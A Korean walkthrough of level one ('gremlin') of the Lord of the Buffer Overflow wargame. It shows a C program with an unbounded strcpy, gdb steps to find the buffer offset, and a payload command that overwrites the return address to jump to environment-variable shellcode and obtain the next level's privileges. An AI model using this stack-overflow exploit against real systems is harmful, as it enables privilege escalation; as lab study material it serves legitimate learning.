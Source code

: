 # LOB 1번

#### ID : gate PW: gate
<br>

우선 gremlin.c의 내용을 보자<br>
```cat gremlin.c```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[1])
{
      char buffer[256];
      if (argc < 2){
        printf("argv error\n");
        exit(0);
      }
      strcpy(buffer, argv[1]);
      printf("%s\n", buffer);
}
```
버퍼로 256byte를 입력받을 수 있고 argc가 2개 미만이면 오류를 출력하고 프로그램을 종료시킨다.<br>
2개 이상이라면 buffer에 argv[1] 인자를 복사하고 출력한다.<br>
이 문제는 strcpy 함수를 실행할 때 정해진 복사할 크기가 없다는 취약점을 이용한 것이다<br>

우리의 목적을 생각해보자.<br>
1. buffer 위치 구하기
2. 환경변수 등록 후 주소 얻기
3. ret에 환경변수 주소 덮어씌우기
3. 공격!

**gremlin 코드를 디버깅해야하기 때문에 gremlin1로 복사하자.**<br>

**그리고 디버깅을 해보자**<br>
```gdb -q gremlin1```<br>
```set disassembly-flavor intel```<br>
```disas main```<br>

<main+3>을 보면 0x100만큼의 공간을 만들고 있다. 0x100은 10진수로 256이다.<br>
buffer에서 ebp까지의 거리가 256이라는 것이다.<br>

25byte 쉘코드를 등록해준 후 주소값을 얻는 코드를 통해 주소값을 얻자.<br>

**이제 페이로드를 작성해보자.**<br>
```../gremlin `python -c 'print "A"*260+"\x25\xfd\xff\xbf"'` ```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
**공격 실시!**<br>
```../gremlin `python -c 'print "A"*260+"\x25\xfd\xff\xbf"'` ```<br>
```my-pass```로 비밀번호를 물어보면<br>
euid와 함께 비밀번호가 "~~". 라고 나올 것이다!!
